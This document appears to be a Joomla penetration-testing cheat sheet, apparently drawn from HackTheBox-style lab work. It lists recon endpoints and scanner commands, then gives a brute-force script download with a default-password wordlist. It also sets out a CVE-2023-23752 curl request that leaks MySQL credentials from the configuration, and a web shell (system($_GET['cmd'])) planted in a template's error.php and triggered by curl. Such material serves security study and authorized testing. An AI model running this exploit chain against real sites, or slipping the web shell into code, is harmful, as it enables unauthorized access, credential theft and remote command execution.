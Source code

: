 
# Manual Endpoint Reconnaissance

When performing manual reconnaissance on a Joomla site, check for the following common endpoints:

```text
/robots.txt
/README.txt
/LICENSE.txt
/administrator/manifests/files/joomla.xml
/language/en-GB/en-GB.xml
/plugins/system/cache/cache.xml
/web.config
```

# Automated Endpoint Discovery

## Using Droopescan
Droopescan can automatically scan for common Joomla endpoints:
```bash
droopescan scan joomla --url http://joomla-site.local/
```

## Using Joomscan (OWASP)
Joomscan is another tool specifically for Joomla vulnerability assessment.

### Installation
```bash
git clone https://github.com/rezasp/joomscan.git
cd joomscan
perl joomscan.pl
```

# Exploitation

## Bruteforce Attack

Default credentials for Joomla are often `admin:admin`. To perform a brute-force attack:

### Download and Use joomla-brute.py
```bash
wget https://raw.githubusercontent.com/ajnik/joomla-bruteforce/master/joomla-brute.py
python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```

## CVE-2023-23752 to Code Execution

### Extracting Joomla! MySQL Credentials
This CVE allows accessing Joomla configuration, including MySQL credentials in plain-text.

#### Exploitation Steps
1. Use curl to extract configuration data:
```bash
    curl -v http://10.9.49.205/api/index.php/v1/config/application?public=true
```
1. With MySQL credentials in hand, log in to the Joomla admin interface and modify a template for RCE.
2. Navigate to Site templates > Editor, and modify `error.php` to include:
```php
    system($_GET['cmd']);
```
1. Execute commands via the modified template:
```bash
    curl -s http://dev.devvortex.htb/templates/cassiopeia/error.php\?cmd\=id
```
